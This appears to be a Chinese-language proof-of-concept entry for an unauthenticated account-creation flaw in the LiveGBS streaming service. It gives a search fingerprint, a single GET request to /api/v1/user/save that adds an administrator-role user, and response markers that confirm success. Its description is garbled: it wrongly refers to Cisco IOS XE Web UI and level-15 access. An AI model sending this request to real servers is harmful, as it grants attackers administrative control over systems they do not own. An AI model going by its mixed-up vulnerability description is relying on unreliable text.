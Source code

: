 ﻿# LiveGBS 流媒体服务 添加用户

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：LiveGBS save接口处存在逻辑缺陷漏洞，当Cisco IOS XE Web UI在互联网公开时，恶意攻击者可能会利用此漏洞添加具有15级访问权限的账户，使服器处于继不安全的状态  

> 漏洞特征：icon_hash="-206100324"

> 验证脚本：HTTP

```
GET /api/v1/user/save?ID=&Username=dudesuite&Role=%E7%AE%A1%E7%90%86%E5%91%98&Enable=true HTTP/1.1
Connection: close
```

> 响应代码特征：200

> 响应内容特征：password

> 上传文件定位：

> 验证文件来源：LiveGBS 流媒体服务 添加用户.poc

